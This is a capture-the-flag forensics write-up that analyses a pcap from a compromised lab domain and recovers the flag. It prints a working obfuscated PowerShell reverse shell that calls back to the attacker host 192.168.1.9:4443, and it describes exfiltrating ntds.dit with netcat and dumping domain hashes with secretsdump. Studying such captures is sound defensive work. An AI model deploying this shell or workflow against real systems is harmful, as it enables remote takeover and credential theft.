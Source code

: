 # Keep the Steam Activated

The description for this challenge is as follows:

*The network in which our main source of steam is connected to, got compromised. If they managed to gain full control of this network, it would be a disaster!*

The challenge was rated at 3 out of 4 stars, and it was worth 450 points at the end with a total of 14 solves.The downloadables for this challenge included a single pcap file. This was a reasonably difficult forensics challenge that included skills like pcap analysis, obfuscated powershell script analysis, and decoding encrypted protocols using scripts.

**TL;DR Solution:** Extract 


## Extracting NTLM Hashes

Firstly, one good initial step when dealing with pcap files is to check if any files were transferred over HTTP, since Wireshark provides an easy option for the extraction of such files. Simply go to File > Export Objects > HTTP. The files that seemed especially relevant here were called rev.ps1, n.exe, and drop.ps1. As a result, I saved all of them for further analysis.

![wireshark_file_extraction](wireshark_file_extraction.png)

The rev.ps1 file was relatively obfuscated, as shown below. However, one piece of obfuscated text that stands out is "(("{0}{1}{2}" -f '192.168','.1','.9'),4443)". This appears to be targetting the attacker machine's IP address of 192.168.1.9, on what we can assume is port 4443.
```
sv ('8mxc'+'p')  ([tyPe]("{1}{0}{2}" -f 't.encOdi','tex','nG') ) ;${ClI`E`Nt} = &("{1}{0}{2}"-f 'je','New-Ob','ct') ("{5}{0}{8}{1}{2}{3}{4}{6}{7}" -f'y','m','.Net.So','ckets.T','C','S','PC','lient','ste')(("{0}{1}{2}" -f '192.168','.1','.9'),4443);${sT`Re`Am} = ${C`L`IeNT}.("{0}{2}{1}"-f'Ge','tream','tS').Invoke();[byte[]]${By`T`es} = 0..65535|.('%'){0};while((${i} = ${str`EaM}.("{0}{1}" -f'Re','ad').Invoke(${bY`Tes}, 0, ${by`TEs}."Len`G`TH")) -ne 0){;${d`AtA} = (.("{2}{1}{0}"-f '-Object','w','Ne') -TypeName ("{0}{3}{5}{1}{4}{2}" -f'Syst','ASCI','g','em.Text','IEncodin','.'))."gETSt`R`i`Ng"(${by`TES},0, ${i});${SeN`DBacK} = (.("{0}{1}"-f 'ie','x') ${Da`Ta} 2>&1 | &("{0}{2}{1}"-f'Out-','ing','Str') );${SENdb`AC`k2} = ${s`eNDb`ACK} + "PS " + (.("{1}{0}"-f'd','pw'))."P`ATH" + "> ";${sE`NDBYtE} = (  (  vaRIaBle ('8MXC'+'P')  -ValUe  )::"ASC`Ii").("{2}{1}{0}"-f'es','tByt','Ge').Invoke(${SENdB`AC`K2});${sT`REAM}.("{0}{1}" -f'Writ','e').Invoke(${S`e`NdbY`Te},0,${SE`NDbyTe}."lENG`TH");${S`TR`eAM}.("{1}{0}" -f 'h','Flus').Invoke()};${clIE`Nt}.("{0}{1}"-f 'Cl','ose').Invoke()
```
If I use the filter "tcp.port == 4443" in Wireshark, I can see that there is a lot of TCP traffic here. If I right-click one of these packets and select Follow > TCP stream, I can view a plaintext representation of the conversation that occurred over these packets. Of particular interest is the fact that the files ntds.dit and the SYSTEM hive seem to have been encoded in base 64, then transferred back to the attacker machine using port 8080 with the n.exe file. As a side-note, I determined that n.exe seems to be a version of netcat by simply uploading it to VirusTotal.

![system_ntds_transfer_conversation](system_ntds_transfer_conversation.png)

Now I can use the filter "tcp.port == 8080" and follow the conversations again like described above. There are two separate conversations, both of which seem to be base64 strings with "-----BEGIN CERTIFICATE-----" at the top and "-----END CERTIFICATE-----" at the end. 

![ntds_b64encoded](ntds_b64encoded.png)

I decoded both files by using the base64 utility in the Linux command line. The workflow here is to use the "Save as" option at the bottom of the followed TCP window to save a text file version of each stream, open the files up in a text editor to cut of the plaintext certificate lines, then run them through the base64 utility while piping the outputs to appropriately named files. Now I just need to figure out where to go from here.
```
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21/forensics_keep_the_steam$ base64 --decode ntds_b64_stream > ntds.dit
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21/forensics_keep_the_steam$ base64 --decode system_b64_stream > system.hive
```
## Deriving NTLM Hashes

Obviously, there is a lot of information in both the ntds.dit and SYSTEM hive files, so I decided to focus on what I could derive if given both simultanoeously. After a bit of research, I found that it is a reasonably common strategy to rip these files from a system in order to extract NTLM hashes for Domain users. Impacket has a script that can automatically extract these hashes called secretsdump.py; my Kali Linux machine seems to have the script already, but you could also download it from the github at https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py. The actual command to dump the hashes is relatively straightforward, as is the process of parsing the results:
```
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21/forensics_keep_the_steam$ secretsdump.py -ntds ntds.dit -system system.hive LOCAL
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x406124541b22fb571fb552e27e956557
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 9da98598be012bc4a476100a50a63409
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8bb1f8635e5708eb95aedf142054fc95:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
CORP-DC$:1000:aad3b435b51404eeaad3b435b51404ee:94d5e7460c75a0b30d85744f633a0e66:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9555398600e2b2edf220d06a7c564e6f:::
CORP.local\fcastle:1103:aad3b435b51404eeaad3b435b51404ee:37fbc1731f66ad4e524160a732410f9d:::
CORP.local\jdoe:1104:aad3b435b51404eeaad3b435b51404ee:37fbc1731f66ad4e524160a732410f9d:::
WS01$:1105:aad3b435b51404eeaad3b435b51404ee:cd9c49cc4a1a535d27b64ab23d58f3e6:::
WS02$:1106:aad3b435b51404eeaad3b435b51404ee:98c3974cacc09721a351361504de4de5:::
CORP.local\asmith:1109:aad3b435b51404eeaad3b435b51404ee:acbfc03df96e93cf7294a01a6abbda33:::
[*] Kerberos keys from ntds.dit 
Administrator:aes256-cts-hmac-sha1-96:6e5d1ccb7642b4bf855975702699f733034916dbd04bf4acddc36ac273b3f578
Administrator:aes128-cts-hmac-sha1-96:8d5709c4a7cab2e0f5fbb4a069b283fb
Administrator:des-cbc-md5:e302c7793b58ae97
CORP-DC$:aes256-cts-hmac-sha1-96:9c888129432a87257f81f6bb6affd91bc3b0ba9cf20e94ef9216364d79aab5bd
CORP-DC$:aes128-cts-hmac-sha1-96:0ac3c714050469724e5c41d21f7f86d3
CORP-DC$:des-cbc-md5:57497ce6972613da
krbtgt:aes256-cts-hmac-sha1-96:85c670ece27dad635c28630454154bb325b644b8f61d44f802b80c39277f529e
krbtgt:aes128-cts-hmac-sha1-96:15bfbb6b827c1904e49d77bf7624c2f4
krbtgt:des-cbc-md5:a2074373b920515d
CORP.local\fcastle:aes256-cts-hmac-sha1-96:c6319d38d781e145161c4b1a4ef11d08ad9be36c43b173b355f78c2cf2edf15a
CORP.local\fcastle:aes128-cts-hmac-sha1-96:144565c25d70678535b2908983d74f6e
CORP.local\fcastle:des-cbc-md5:6b0b2f01a731a78f
CORP.local\jdoe:aes256-cts-hmac-sha1-96:9d74074381d0000525c1cfbb24c2943e28bf415b89c8cf958eae5add39614ac8
CORP.local\jdoe:aes128-cts-hmac-sha1-96:7e0fb5fa7dcfa50ea0a8a55e08b63f74
CORP.local\jdoe:des-cbc-md5:610e67019e9b68ab
WS01$:aes256-cts-hmac-sha1-96:ccc215ff3ac06dc3e206f6e55cd1512f3bb00311d02c77591f3cb08e01d5a40f
WS01$:aes128-cts-hmac-sha1-96:5e94401d7da953a13d42809340ff6ec3
WS01$:des-cbc-md5:9885ea642f268ab3
WS02$:aes256-cts-hmac-sha1-96:dc3f081be6c29532904a073124a0998d857667cc5c531fcbe0f6d3e46d40eac2
WS02$:aes128-cts-hmac-sha1-96:7e494ea36b4fb80670f807a8c72e7b3d
WS02$:des-cbc-md5:b58a08dc9eabbc0d
CORP.local\asmith:aes256-cts-hmac-sha1-96:57e22c0b740ed35935f82a6e34ab84a683437105a4ab2f1f3ba70962d5c53112
CORP.local\asmith:aes128-cts-hmac-sha1-96:392a638579d925cca9e4ef7965b9dcdd
CORP.local\asmith:des-cbc-md5:839bd6e9380e40f7
[*] Cleaning up... 
```
By googling the NT hashes, I was able to determine that asmith's plaintext password was Summer2020, but I have not determined the passwords for the other users.

### SMB Decryption Rabbit Hole

I spent several hours attempted to decrypt the encrypted SMB3 traffic at the beginning of the capture. I will not go into much detail about that here, but if anyone is interested, this writeup provides the best description of how to decrypt this traffic, and I used it extensively in these attempts: https://medium.com/maverislabs/decrypting-smb3-traffic-with-just-a-pcap-absolutely-maybe-712ed23ff6a2

## Decrypting the Winrm Traffic

When you view the traffic immediately after the bas64 encoded SYSTEM hive has finished transmitting over port 8080, you can see encrypted winrm traffic that can hopefully be decrypted to view the flag.

![winrm_traffic](winrm_traffic.png)

I was able to find a script online that can purportedly decrypt winrm traffic if given the NT  hash of the password, which seems perfect given what we have. However, when I attempted to run it, it failed. Ultimately, the issue seems to have come down to a failure to properly parse the pcap capture data as bytes. A team member made adjustments on line 208, where "include_raw=True, use_json=True" was added, and line 248, where "file_data = cap.http.file_data.binary_value" was changed to "file_data = cap.http.file_data_raw[0].binary_value". The output was very long, and it started like this: 
```
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21/forensics_keep_the_steam$ python3 winrm_decoder_edited.py -n 8bb1f8635e5708eb95aedf142054fc95 capture.pcap 
No: 21358 | Time: 2021-11-05T07:04:51.144128 | Source: 192.168.1.9 | Destination: 192.168.1.10
<?xml version="1.0" ?>
<env:Envelope xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:env="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:b="http://schemas.dmtf.org/wbem/wsman/1/cimbinding.xsd" xmlns:n="http://schemas.xmlsoap.org/ws/2004/09/enumeration" xmlns:x="http://schemas.xmlsoap.org/ws/2004/09/transfer" xmlns:w="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns:p="http://schemas.microsoft.com/wbem/wsman/1/wsman.xsd" xmlns:rsp="http://schemas.microsoft.com/wbem/wsman/1/windows/shell" xmlns:cfg="http://schemas.microsoft.com/wbem/wsman/1/config">
	<env:Header>

```
I ended up piping this output to a "winrm_decoded.txt" file and grepping for flag-like results. At an initial glance, I noticed that there seemed to be a lot of powershell commands obfuscated with base64 that could contain a plaintext flag. Base64 encoding depends on offset, so as a I was attempting to grep for the flag, I tried encoding aHTB{ and got YUhUQns=. The first two characters seem dependant on the a, so if I just grep for some of the middle characters, I get:
```
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21/forensics_keep_the_steam$ cat winrm_decoded.txt | grep hUQn
			<rsp:Stream Name="stdout" CommandId="8937D38B-70EB-44FB-84C5-DB5752DA7E67">AAAAAAAAABoAAAAAAAAAAAMAAABeAQAAAAQQBACzrAetdF3OT7duxmQ4O6Yxi9M3ietw+0SExdtXUtp+Z++7vzxTPkhUQntuMHRoMW5nXzFzX3RydTNfM3Yzcnl0aDFuZ18xc19kM2NyeXB0M2R9PC9TPg==</rsp:Stream>
```
If I then go ahead and decode this base64 string, I get:
```
....................^........³¬..t]ÎO·nÆd8;¦1.Ó7.ëpûD.ÅÛWRÚ~gï»¿<S>HTB{n0th1ng_1s_tru3_3v3ryth1ng_1s_d3crypt3d}</S>
```
Thanks for reading!
